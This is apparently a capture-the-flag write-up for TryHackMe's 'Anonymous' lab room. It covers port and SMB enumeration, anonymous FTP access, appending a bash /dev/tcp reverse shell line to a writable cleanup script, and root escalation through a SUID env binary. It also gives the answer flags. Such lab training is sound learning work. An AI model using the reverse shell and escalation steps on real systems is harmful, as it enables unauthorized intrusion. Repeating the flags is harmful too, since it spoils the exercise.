 <p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/anonymous_Cover.png" alt="Anonymous">
</p>

# [Anonymous](https://github.com/Kevinovitz/TryHackMe_Writeups/tree/main/anonymous)

In this room we https://tryhackme.com/room/

More details [here](https://stawm.design.blog/2020/05/21/anonymous-thm-writeup/).

## Pwn

This guide contains the answer and steps necessary to get to them for the [Anonymous](https://tryhackme.com/room/) room. This room is similar to some other room, but I can't remember the name at the moment.

1. Enumerate the machine.  How many ports are open?

   We first scan the machine for any open ports with the following command:
   
   ```cmd
   nmap -sV 10.10.147.121
   ```
   
   ![Nmap Scan](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Nmap_Scan.png)

   ><details><summary>Click for answer</summary>4</details>

2. What service is running on port 21?

   This answer can be found in the previous image.

   ><details><summary>Click for answer</summary>ftp</details>

3. What service is running on ports 139 and 445?

   Both these answers can be seen in the previous image above.

   ><details><summary>Click for answer</summary>smb</details>

4. There's a share on the user's computer.  What's it called?

   We can use smbclient to identify the shares available on the target machine.
   
   ```cmd
   smbclient -NL //10.10.11.32
   ```
   
   ![Smb Shares](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Smb_Shares.png)
      
   To view the contents of this share we can use:
   
   ```cmd
   smbclient -N //10.10.11.32/pics
   ```
   
   ![Smb Share](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Nmap_Smb.png)

   After going through these files, it appears they are just images of some dogs, which have no further use.
   
   ![SMB Files](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Nmap_Smb_Files.png)
   
   ![Images](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Dogs.png)

   ><details><summary>Click for answer</summary>pics</details>

5. user.txt

   From the nmap scan we found we could connect to the machine through anonymous ftp.
   
   ```cmd
   ftp 10.10.75.132
   ```
   
   ![FTP Log In](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Ftp_Log_In.png)
   
   Looking through the files we see three files in a scripts folder which may be of interest.
   
   ![FTP Files](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Ftp_Files.png)
   
   We can download them all to our machine to investigate with `mget *`.
   
   ![FTP Download Files](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Ftp_Download.png)
   
   Looks like the `clean.sh` file is a script that runs periodically to remove some files. This gets stored in the log file. We also note that we have write access to this script. 
   
   ![Removed Files Log](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Removed_Files_Log.png)
   
   Lets find a command for a reverse shell we can add to this files. We can use [pentestmonkeys](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for this.
   
   ![Reverse Shell Command](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Reverse_Shell_Command.png)
   
   We can now append this to the script we downloaded.
   
   ```cmd
   bash -i >& /dev/tcp/10.18.78.136/1337 0>&1
   ```
   
   ![Finished Script](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Finished_Script.png)
   
   Now all we have to do, is upload the file to the server. Set up a listener and wait for the script to run.
   
   ```cmd
   put clean.sh
   ```
   
   ![FTP Upload](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Ftp_Upload.png)
   
   We can check if the command was added using:
   
   ```cmd
   curl ftp://10.10.75.132/scripts/clean.sh
   ```
   
   ![Check Script](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Check_Script.png)
   
   Now we setup the listener and wait for the incoming connection to be made.
   
   ```cmd
   nc -nlvp 1337
   ```
   
   ![Reverse Shell](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Nmap_Reverse_Shell.png)
   
   Now it is time to navigate to the flag and read its contents.
   
   ![User Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Nmap_User.png)

   ><details><summary>Click for answer</summary>90d6f992585815ff991e68748c414740</details>

6. root.txt

   In order for us to gain root on this machine we can look for any binaries which have their SUID bit set. 
   
   ```cmd
   find / -perm -4000 2>/dev/null
   ```
   
   ![Shell SUID](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Shel_SUID.png)
   
   We can use GTFOBins to look for any binaries which don't need sudo or a password. From this list we can use `/usr/bin/env`.
   
   ![GTFO](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_GTFO.png)
   
   Now we can use this command to get root access on the machine.
   
   ```cmd
   /usr/bin/env bin/bash -p
   ```
   
   ![Root](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Root.png)
   
   After a quick check to verify we are indeed root, we can look at the contents of `root.txt`.
   
   ![Root Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Root_Flag.png)

   ><details><summary>Click for answer</summary>4d930091c31a622a7ed10f27999af363</details>
